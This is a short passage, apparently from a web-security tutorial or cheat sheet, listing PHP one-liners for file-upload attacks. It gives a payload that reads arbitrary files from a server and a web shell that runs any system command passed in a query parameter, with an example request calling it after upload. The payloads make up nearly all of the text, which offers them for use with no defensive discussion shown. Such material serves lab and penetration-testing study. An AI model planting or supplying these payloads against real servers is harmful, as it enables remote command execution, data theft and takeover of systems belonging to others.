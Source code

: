 ## PHP One-liners

Read arbitrary files from the server's filesystem:
`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter:
`<?php echo system($_GET['command']); ?>`
Once uploaded: `GET /example/exploit.php?command=whoami HTTP/1.1`



